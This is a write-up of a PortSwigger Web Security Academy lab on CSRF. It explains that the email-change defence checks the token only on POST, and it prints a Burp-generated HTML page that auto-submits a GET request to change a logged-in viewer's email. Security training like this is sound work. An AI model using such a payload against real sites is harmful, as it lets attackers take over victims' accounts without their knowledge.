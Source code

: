 ```yaml
---
title: 'Lab: CSRF where token validation depends on request method'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/CSRF/針對CSRF Token與同源政策的繞過手段"
---
```


# Lab: CSRF where token validation depends on request method
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests. 
* Goal:  To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
You can log in to your own account using the following credentials: `wiener:peter`


## Recon
1. Login and update email to trace the package
Like the previous lab, we first login to the website and update the email. At the same time, we can trace update email package shown below:
![](https://i.imgur.com/ju0fDUQ.png)
We can notice that the carried data including `csrf_token`
2. According to [从0到1完全掌握 CSRF](https://zhuanlan.zhihu.com/p/517735618) and [CSDN write up](https://blog.csdn.net/ZripenYe/article/details/120793710)
    :::info
    We know that using some technique can bypass this protection $\to$
        1. <font color="FF0000">**Delete `csrf_token` data**</font>
        2. <font color="FF0000">**change `POST` method to `GET` method**</font>

    In this lab, we use the 2nd method to bypass CSRF
    :::
![](https://i.imgur.com/U0mBdv8.png)
You can see that the response status is 302 which means it's a good way to forge a CSRF package

## Exp - Change POST to GET to bypass CSRF
Follow the self-created package at previous lab
Exploit Payload:
```javascript=
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/')</script>
 
    <form action="https://0a9700ef04043a66801b0d0e00d10084.web-security-academy.net/my-account/change-email?email=bernie6401%40gmail.com" method="GET">
      <input type="hidden" name="email" value="danger&#64;gmail&#46;com" />
    </form>
    <script>
          document.forms[0].submit();
    </script>
  </body>
</html>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/lKFkGTy.png)
:::

## Reference
[从0到1完全掌握 CSRF](https://zhuanlan.zhihu.com/p/517735618)